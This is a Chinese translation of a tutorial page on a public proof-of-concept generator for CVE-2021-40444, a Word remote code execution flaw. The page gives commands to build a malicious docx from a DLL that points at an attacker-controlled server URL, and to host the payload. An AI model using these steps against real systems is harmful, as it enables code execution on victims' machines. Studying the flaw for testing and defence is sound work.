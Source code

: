 # CVE-2021-40444 PoC:利用 CVE-2021-40444(Microsoft Office Word 远程代码执行)的恶意 docx 生成器

> 原文：<https://kalilinuxtutorials.com/cve-2021-40444-poc/>

[![](img/2d2bfa07aba30a50e7754b6619a2defe.png)](https://1.bp.blogspot.com/-VgtcdjKkQcM/YUSb6wCz4ZI/AAAAAAAAK4I/ryPbDYCyBl8jv3aRf-_IzqL5AddvA6O4QCLcBGAsYHQ/s728/download%2B%25281%2529.png)

**CVE-2021-40444 PoC** 是利用 CVE-2021-40444(Microsoft Office Word 远程代码执行)的恶意 docx 生成器

这个脚本的创建是基于对在野外使用的样本 938545 F7 bb 40738908 a 95 da 8 cdeabb 2 a 11 ce 2 ca 36 b 0 f 6 a 74 deda 9378d 380 a 52(docx 文件)的一些逆向工程

你需要先安装 lcab(`**sudo apt-get install lcab**`)

检查`**REPRODUCE.md**`中的手动复制步骤

如果您生成的 cab 不工作，请尝试将 exploit.html URL 指向 calc.cab

**使用**

首先生成一个恶意的 docx 文档，给定一个 DLL，你可以使用在`**test/calc.dll**`的那个，它只是从对`**system()**`的调用中弹出一个`**calc.exe**`

`**python3 exploit.py generate test/calc.dll http://<SRV IP>**`

![](img/0d7be3c80ce9864fc4da8f725df413ef.png)

一旦你生成了恶意的 docx(将在`**out/**`)你就可以设置服务器:

`**sudo python3 exploit.py host 80**`

![](img/cb43b23643153323b51321f4d681e677.png)

最后，在 Windows 虚拟机中尝试 docx:

![](img/accfa1722dfaf2dad9b7cdf977a0a946.png)[**Download**](https://github.com/lockedbyte/CVE-2021-40444)